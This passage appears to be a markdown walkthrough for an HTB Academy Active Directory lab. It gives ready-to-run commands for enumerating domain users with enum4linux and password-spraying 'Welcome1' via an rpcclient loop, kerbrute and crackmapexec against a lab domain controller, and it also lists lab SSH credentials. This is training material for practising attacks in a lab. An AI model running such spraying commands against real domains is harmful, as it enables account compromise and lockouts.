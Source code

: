 ### ⚠️ **Important Flags**
- `--local-auth`: Prevents domain account lockouts
- `--threads`: Controls connection speed
- `-H`: Uses NTLM hash instead of password

---

## 🎯 HTB Academy Lab Walkthrough

### 📝 Lab Question
*"Find the user account starting with the letter 's' that has the password Welcome1. Submit the username as your answer."*

### 🚀 Step-by-Step Solution

#### 1️⃣ **Connect to Attack Host**
```bash
# SSH to target
ssh htb-student@10.129.54.201
# Password: HTB_@cademy_stdnt!
```

#### 2️⃣ **Gather User List with enum4linux**
```bash
# Use enum4linux to gather usernames (exact HTB lab method)
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" > validUsers.txt

# Verify the user list was created
cat validUsers.txt
wc -l validUsers.txt

# Alternative: If you have Kerbrute results from previous enumeration
# grep "VALID USERNAME" kerbrute_output.txt | awk '{print $4}' | cut -d'@' -f1 > valid_users.txt
```

#### 3️⃣ **Method 1: rpcclient Password Spray**
```bash
# Test Welcome1 password against all users
for u in $(cat validUsers.txt); do 
    rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority
done
```

#### 4️⃣ **Method 2: Kerbrute Password Spray (Recommended)**
```bash
# Most reliable method - exactly as shown in HTB lab
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 validUsers.txt Welcome1
```

#### 5️⃣ **Method 3: CrackMapExec**
```bash
# Alternative verification
crackmapexec smb 172.16.5.5 -u validUsers.txt -p Welcome1 | grep +
```
